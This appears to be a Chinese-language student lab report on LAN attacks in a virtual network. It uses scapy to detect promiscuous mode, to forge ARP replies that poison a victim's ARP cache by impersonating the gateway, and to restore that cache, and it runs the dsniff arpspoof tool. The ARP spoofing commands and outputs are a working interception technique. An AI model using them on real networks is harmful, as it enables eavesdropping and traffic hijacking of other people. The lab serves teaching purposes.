





## 

## 实验环境 Y



如图所示网络中的节点基本信息如下：

* 攻击者主机
  * 08:00:27:e0:ca:33 / eth0
  * 192.168.1.98
* 网关
  * 08:00:27:92:fb:b7 / enp0s8
  * 192.168.1.1
* 受害者主机
  * 08:00:27:79:3c:11 / eth0
  * 192.168.1.15


## 试验准备

### 安装 scapy

在攻击者主机上提前安装好 [scapy](https://scapy.net/) 。

```
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

## 试验一

### 在受害者主机未开启混杂模式的情况下试验

```
# 在受害者主机
kate@bogon:~$ ip  link  show eth0
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP mode DEFAULT group default qlen 1000
    link/ether 08:00:27:79:3c:11 brd ff:ff:ff:ff:ff:ff
    
# 在攻击者主机开启scapy并执行下述代码
kate@bogon:~$ sudo scapy
INFO: Can't import PyX. Won't be able to use psdump() or pdfdump().
WARNING: No route found for IPv6 destination :: (no default route?)
      .SYPACCCSASYY  
P /SCS/CCS        ACS | Welcome to Scapy
       /A          AC | Version 2.4.3
     A/PS       /SPPS |
        YP        (SC | https://github.com/secdev/scapy
       SPS/A.      SC |
   Y/PACC          PP | Have fun!
    PY*AYC        CAA
         YYCY//SCYP   using IPython 7.16.1
>>> pkt = promiscping("192.168.1.15")                                      
Begin emission:
Finished sending 1 packets.
```

### 在受害者主机开启混杂模式

```

kate@bogon:~$ sudo ip link set eth0 promisc on
[sudo] kate 的密码：
kate@bogon:~$ ip  link  show eth0
2: eth0: <BROADCAST,MULTICAST,PROMISC,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP mode DEFAULT group default qlen 1000
    link/ether 08:00:27:79:3c:11 brd ff:ff:ff:ff:ff:ff
kate@bogon:~$ 
```


### 在受害者主机开启混杂模式之后再次试验

```
kate@bogon:~$ sudo scapy
INFO: Can't import PyX. Won't be able to use psdump() or pdfdump().
WARNING: No route found for IPv6 destination :: (no default route?)
      .SYPACCCSASYY  
P /SCS/CCS        ACS | Welcome to Scapy
       /A          AC | Version 2.4.3
     A/PS       /SPPS |
        YP        (SC | https://github.com/secdev/scapy
       SPS/A.      SC |
   Y/PACC          PP | Have fun!
    PY*AYC        CAA
         YYCY//SCYP   using IPython 7.16.1
>>> pkt = promiscping("192.168.1.15")                                      
Begin emission:
Finished sending 1 packets.
```

**差异**:在受害者主机开启混杂模式之后，攻击者主机在执行`pkt = promiscping("192.168.1.15")`时可以收到一个answer的数据包，而当受害者主机没有开启混杂模式时，攻击者主机没有收到回复数据包。

补充：混杂模式下受害者主机对于所有的数据都会接受，而非混杂模式下受害者主机只接受发往自己的MAC地址的数据。

## 实验二：手工单步“毒化”目标主机的 ARP 缓存

### 毒化受害者主机的ARP缓存

* 实验过程

```
>>> arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="192.168.1.1")        
>>> arpbroadcast.show()                                                                
###[ Ethernet ]### 
  dst= ff:ff:ff:ff:ff:ff
  src= 08:00:27:e0:ca:33
  type= ARP
###[ ARP ]### 
     hwtype= 0x1
     ptype= IPv4
     hwlen= None
     plen= None
     op= who-has
     hwsrc= 08:00:27:e0:ca:33
     psrc= 192.168.1.98
     hwdst= 00:00:00:00:00:00
     pdst= 192.168.1.1

>>> recved = srp(arpbroadcast, timeout=2)                                    
Begin emission:
Finished sending 1 packets.
*
Received 1 packets, got 1 answers, remaining 0 packets
>>> gw_mac = recved[0][0][1].hwsrc                                           
>>> gw_mac                                                                   
'08:00:27:92:fb:b7'
>>> arpspoofed=Ether()/ARP(op=2, psrc="192.168.1.1", pdst="192.168.1.15", hwd
...: st="08:00:27:e0:ca:33")                                                 
>>> sendp(arpspoofed)                                                        
.
Sent 1 packets.
>>> 
```

* 试验结果



### 恢复受害者主机的 ARP 缓存记录

* 过程

```
>>> restorepkt1=Ether()/ARP(op=2, psrc="192.168.1.1", pdst="192.168.1.15", hwsrc="08:0
...: 0:27:92:fb:b7",hwdst="08:00:27:79:3c:11")                                        
>>> restorepkt1.show()                                                                
###[ Ethernet ]### 
  dst= 08:00:27:79:3c:11
  src= 08:00:27:e0:ca:33
  type= ARP
###[ ARP ]### 
     hwtype= 0x1
     ptype= IPv4
     hwlen= None
     plen= None
     op= is-at
     hwsrc= 08:00:27:92:fb:b7
     psrc= 192.168.1.1
     hwdst= 08:00:27:79:3c:11
     pdst= 192.168.1.15

>>> sendp(restorepkt1,count=100,inter=0.2)                                            
.......................................................................
```

结果：

```
root@bogon:/home/kate# ip neigh show
192.168.1.1 dev eth0 lladdr 08:00:27:92:fb:b7 REACHABLE
192.168.1.98 dev eth0 lladdr 08:00:27:e0:ca:33 STALE
```



### 伪装受害者给网关发送 ARP 响应

```
>>> restorepkt2=Ether()/ARP(op=2, psrc="192.168.1.15", pdst="192.168.1.1", hwsrc="08:0
...: 0:27:79:3c:11",hwdst="08:00:27:92:fb:b7") 

>>> restorepkt2.show()                                                                
###[ Ethernet ]### 
  dst= 08:00:27:92:fb:b7
  src= 08:00:27:e0:ca:33
  type= ARP
###[ ARP ]### 
     hwtype= 0x1
     ptype= IPv4
     hwlen= None
     plen= None
     op= is-at
     hwsrc= 08:00:27:79:3c:11
     psrc= 192.168.1.15
     hwdst= 08:00:27:92:fb:b7
     pdst= 192.168.1.1 

>>> sendp(restorepkt2,count=100,inter=0.2)                                            
....................................................................................................
Sent 100 packets.
```

## 实验三（可选）使用自动化工具完成 ARP 投毒劫持实验

* 下载工具

```
apt-get install dsniff ssldump
root@bogon:/home/kate# arpspoof
Version: 2.4
Usage: arpspoof [-i interface] [-c own|host|both] [-t target] [-r] host
root@bogon:/home/kate# 

```

* 使用arpspoof工具之前受害者主机的ARP缓存状况：



* 使用`arpspoof -i eth0 -t 192.168.1.15 192.168.1.1`攻击之后受害者主机的ARP缓存状态

